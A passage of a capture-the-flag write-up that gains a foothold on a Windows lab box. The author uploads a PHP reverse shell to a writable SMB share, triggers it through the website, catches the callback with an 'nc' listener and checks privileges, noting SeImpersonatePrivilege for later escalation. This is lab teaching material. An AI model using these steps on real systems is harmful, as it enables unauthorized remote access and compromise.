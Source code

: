 Looking through the content of this SMB share, we noticed that these are the images that `content.php` is displaying.

Now let's move forward to exploitation and setting a foothold on this box.

## Setting a foothold
Knowing we have write access on `images$` share, let's go ahead and upload a reverse shell - I used the one from [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell).

```sh
smb: \> put shell.php
putting file shell.php as \shell.php (3.7 kb/s) (average 3.7 kb/s)
```

Now that we have our reverse shell uploaded, let's go ahead and activate it. Make sure you have an active listener beforehand.

Go back to the website and append `/images/shell.php` on your URL, this should open a connection back to your listener.

```sh
$ rlwrap nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.4.32.195] from (UNKNOWN) [10.10.44.132] 49969
SOCKET: Shell has connected! PID: 1148
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\> whoami
desktop-997gg7d\sign

C:\> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Success 🎉! Further enumeration, we know that we are user `sign` and that we have the `SeImpersonatePrivilege` privilege which can be a vector for potential privilege escalation later.

## Retrieving the User Flag
Now that we have a shell and we know who we are. Let's proceed and get our user flag. For CTF boxes such as this, they are usually stored on the user's desktop.
